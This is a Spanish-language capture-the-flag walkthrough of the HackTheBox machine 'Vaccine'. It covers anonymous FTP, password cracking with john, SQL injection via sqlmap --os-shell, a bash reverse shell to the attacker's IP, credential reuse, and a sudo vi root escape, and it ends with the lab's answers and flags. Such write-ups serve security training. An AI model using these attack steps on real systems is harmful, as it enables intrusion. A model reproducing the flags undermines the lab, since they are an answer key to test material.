




Resolución de la máquina Vaccine de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 10.129.95.174
Nmap scan report for 10.129.95.174
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
80/tcp open http
Podemos conectarnos como anonymous a ftp y vemos un archivo backup.zip
❯ ftp 10.129.95.174
Connected to 10.129.95.174.
220 (vsFTPd 3.0.3)
Name (10.129.95.174:gato): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xr-x 1 0 0 2533 Apr 13 2021 backup.zip
226 Directory send OK.
ftp>
Asi que lo descargamos y salimos de ftp
ftp> get backup.zip
local: backup.zip remote: backup.zip
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for backup.zip (2533 bytes).
226 Transfer complete.
2533 bytes received in 0.00 secs (4.7366 MB/s)
ftp> exit
221 Goodbye.
Si intentamos descomprimirlo podemos ver que esta cifrado y necesitamos una contraseña
❯ unzip backup.zip
Archive: backup.zip
[backup.zip] index.php password:
Usando john podemos crear un hash del zip y romperlo por fuerza bruta con el rockyou
❯ zip2john backup.zip > hash
❯ john -w:/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
741852963 (backup.zip)
Session completed:
Ahora al descomprimirlo con la contraseña podemos ver un archivo .php y un archivo .css
❯ unzip backup.zip
Archive: backup.zip
[backup.zip] index.php password: 741852963
inflating: index.php
inflating: style.css
En el archivo php podemos ver que compara el md5 de la contraseña de admin con un hash md5
❯ sed -n 2,10p index.php
<?php
session_start();
if(isset($_POST['username']) && isset($_POST['password'])) {
if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
$_SESSION['login'] = "true";
header("Location: dashboard.php");
}
}
?>
Con john podemos romper el hash que es una contraseña bastante débil
❯ cat hash
admin:2cb42f8734ea607eefed3b70af13bbd3
❯ john -w:/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 XOP 4x2])
qwerty789 (admin)
Session completed
En la web podemos ver el login que puede ser el mismo php que encontramos

Sabiendo esto podemos acceder como admin y la contraseña qwerty789

Al acceder podemos ver un catalogo de autos y en la parte superior derecha un buscador

Si enviamos una ' en el buscador podemos ver que nos lanza un error de sintaxis de sql

Podemos capturar la peticion y pasarsela a sqlmap, con esto podemos listar las bases de datos
❯ cat request
GET /dashboard.php?search=test HTTP/1.1
Host: 10.129.95.174
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9,en;q=0.8
Cookie: PHPSESSID=ip26dkrupcj7507kkgsnv23ha7
Connection: close
❯ sqlmap -r request --batch -dbs
___
__H__
___ ___[,]_____ ___ ___ {1.6.12#stable}
|_ -| . [.] | .'| . |
|___|_ [,]_|_|_|__,| _|
|_|V... |_| https://sqlmap.org
............................................
[INFO] fetching current database
available databases [1]:
[*] public
Solo existe public, podemos listar las tablas usando la base de datos public
❯ sqlmap -r request --batch -D public -tables
___
__H__
___ ___[,]_____ ___ ___ {1.6.12#stable}
|_ -| . [.] | .'| . |
|___|_ [,]_|_|_|__,| _|
|_|V... |_| https://sqlmap.org
............................................
[INFO] fetching tables for database: 'public'
Database: public
[1 table]
+------+
| cars |
+------+
Podemos dumpear todas las columnas de la tabla cars pero no encontramos nada interesante
❯ sqlmap -r request --batch -D public -T cars -dump
___
__H__
___ ___[,]_____ ___ ___ {1.6.12#stable}
|_ -| . [.] | .'| . |
|___|_ [,]_|_|_|__,| _|
|_|V... |_| https://sqlmap.org
............................................
[INFO] fetching entries for table 'cars' in database 'public'
Database: public
Table: cars
[10 entries]
+----+--------+---------+--------+----------+
| id | name | type | engine | fueltype |
+----+--------+---------+--------+----------+
| 1 | Elixir | Sports | 2000cc | Petrol |
| 2 | Sandy | Sedan | 1000cc | Petrol |
| 3 | Meta | SUV | 800cc | Petrol |
| 4 | Zeus | Sedan | 1000cc | Diesel |
| 5 | Alpha | SUV | 1200cc | Petrol |
| 6 | Canon | Minivan | 600cc | Diesel |
| 7 | Pico | Sed | 750cc | Petrol |
| 8 | Vroom | Minivan | 800cc | Petrol |
| 9 | Lazer | Sports | 1400cc | Diesel |
| 10 | Force | Sedan | 600cc | Petrol |
+----+--------+---------+--------+----------+
No hay nada, pero hay una opcion en sqlmap que es --os-shell que nos permite ejecutar comandos
❯ sqlmap -r request --batch --os-shell
___
__H__
___ ___[,]_____ ___ ___ {1.6.12#stable}
|_ -| . [.] | .'| . |
|___|_ [,]_|_|_|__,| _|
|_|V... |_| https://sqlmap.org
............................................
[INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> whoami
command standard output: 'postgres'
os-shell>
Ejecutamos comandos como postgres, para mas comodidad nos podemos hacer una reverse shell
os-shell> bash -c 'bash -i >& /dev/tcp/10.10.14.10/443 0>&1'
Recibimos una bash como postgres en la máquina victima, en el home de postgres está la flag
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.129.95.174
postgres@vaccine:~/11/main$ id
uid=111(postgres) gid=117(postgres) groups=117(postgres),116(ssl-cert)
postgres@vaccine:~/11/main$ hostname -I
10.129.95.174 dead:beef::250:56ff:feb9:8422
postgres@vaccine:~/11/main$ cat /var/lib/postgresql/user.txt
ec9b13ca4d6229cd5cc1e09980965bf7
postgres@vaccine:~/11/main$
En /var/www/html podemos ver un dashboard.php con credenciales para la base de datos
postgres@vaccine:/var/www/html$ sed -n 40,42p dashboard.php
try {
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
}
postgres@vaccine:/var/www/html$
Como ssh está abierto podemos reutilizar las credenciales para conectarnos como postgres
❯ ssh postgres@10.129.95.174
postgres@10.129.95.174's password: P@s5w0rd!
postgres@vaccine:~$
A nivel de sudoers tenemos permitido ejecutar vi como root para editar un archivo
postgres@vaccine:~$ sudo -l
[sudo] password for postgres: P@s5w0rd!
Matching Defaults entries for postgres on vaccine:
secure_path=/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User postgres may run the following commands on vaccine:
(ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
postgres@vaccine:~$
Podemos abrir el archivo como root y dentro de vi spawnearnos una bash con !bash, somos root
postgres@vaccine:~$ sudo vi /etc/postgresql/11/main/pg_hba.conf
:!/bin/bash
root@vaccine:~# cat /root/root.txt
dd6e058e814260bc70e9bbdef2715849
root@vaccine:~#
Vamos con las preguntas que nos pide la web de htb para pwnear la máquina
Besides SSH and HTTP, what other service is hosted on this box?
- ftp
This service can be configured to allow login with any password for specific username. What is that username?
- anonymous
What is the name of the file downloaded over this service?
- backup.zip
What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?
- zip2john
What is the password for the admin user on the website?
- qwerty789
What option can be passed to sqlmap to try to get command execution via the sql injection?
- --os-shell
What program can the postgres user run as root using sudo?
- vi
Submit user flag
- ec9b13ca4d6229cd5cc1e09980965bf7
Submit root flag
- dd6e058e814260bc70e9bbdef2715849